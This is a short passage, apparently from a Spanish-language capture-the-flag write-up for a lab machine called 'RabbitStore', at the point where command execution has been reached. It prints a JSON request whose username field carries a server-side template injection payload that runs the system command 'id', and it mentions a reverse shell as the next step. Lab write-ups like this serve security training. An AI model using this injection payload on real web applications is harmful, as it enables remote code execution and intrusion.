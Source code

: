 Como podemos observar, ahora es posible ejecutar el comando `id`. Solo nos falta configurar la reverse shell para poder acceder al sistema.

<figure><img src="../.gitbook/assets/RabbitStore/buroiod.png" alt=""><figcaption></figcaption></figure>

```
{
	"username":"{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}"
}
```
